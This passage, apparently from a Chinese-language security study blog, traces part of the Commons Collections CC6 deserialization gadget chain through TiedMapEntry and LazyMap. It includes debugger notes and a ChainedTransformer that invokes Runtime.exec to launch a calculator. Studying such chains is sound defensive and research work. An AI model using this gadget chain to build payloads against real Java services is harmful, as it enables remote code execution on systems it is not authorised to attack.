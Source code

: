 跟进getValue方法

```
public Object getValue() {
    return map.get(key);
}
```

再看构造器

```
public TiedMapEntry(Map map, Object key) {
    super();
    this.map = map;
    this.key = key;
}
```

map和key都是可控的,那这里就可以回到我们之前熟悉的LazyMap的中get方法来了

```
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

在这里还遇到了另外一个问题,就是我断点一路跟过来并没有进入if,我在前面也看了,并没有和我Key相对应的映射关系,这里应该返回的值是false才对啊,之前这里有key值一样能进入if

![image-20220126120254955](images/4.png)

但是在网上看到师傅也出现了这样的问题,把前面断点取消,直接在if中打断点就可以进入,而且重新进行断点调试的时候也没有弹计算器了,也就不存在刚才的问题了,这可能是IDEA调试机制的问题吧,不过没什么影响,能成功说明程序能够执行到这里

继续从get方法出发

![image-20220126120550754](images/5.png)

这下就再熟悉不过了调用transform方法,直接就和CC1一样,对应代码

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};

ChainedTransformer chain = new ChainedTransformer(transformers);
```
